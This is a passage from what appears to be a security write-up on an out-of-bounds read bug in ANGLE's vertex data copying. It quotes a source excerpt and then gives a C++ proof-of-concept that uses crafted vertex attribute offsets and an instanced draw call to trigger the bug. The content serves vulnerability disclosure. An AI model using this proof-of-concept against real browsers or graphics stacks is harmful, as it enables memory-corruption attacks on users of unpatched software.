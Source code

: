 ```c++
    uint32_t srcVertexUseCount = 0;  
    for (size_t dataCopied = 0; dataCopied < clampedSize; dataCopied += dstStride)  
    {  
        vertexLoadFunction(srcData, srcStride, 1, dst);// vertex load function == CopyNativeVertexData  
    // ...
```

### POC

Finally, we can trigger an out-of-bound read by invoking the copy routine with an overflowed size, and our POC looks like this:

```c++
    // Vertex Shader
    constexpr char kVS[] = 
        R"(#version 300 es
        in vec4 vPosition;
        in vec2 texCoord0;
        out vec2 texCoord;
        out vec4 feedbackPosition;
        void main() {
            gl_Position = vPosition;
            texCoord = texCoord0;
            feedbackPosition = vPosition;
        })";

    // Fragment Shader
    constexpr char kFS[] = 
        R"(#version 300 es
        precision mediump float;
        void main() {
        })";

    ANGLE_GL_PROGRAM(program, kVS, kFS);
    glUseProgram(program);

    // Specify transform feedback varyings
    const char *varyings[] = {"feedbackPosition"};
    glTransformFeedbackVaryings(program, 1, varyings, GL_SEPARATE_ATTRIBS);

    // Set up vertex attributes
    GLint rloc = glGetAttribLocation(program, "vPosition");
    glVertexAttribPointer(rloc, 2, GL_BYTE, GL_FALSE, 2, reinterpret_cast<void*>(-0x41414141));
    glEnableVertexAttribArray(rloc);
    glVertexAttribDivisor(rloc, 2);

    glDrawArraysInstanced(GL_TRIANGLES, 0, 3, 8);

```

We illustrate the api working flow on this image:
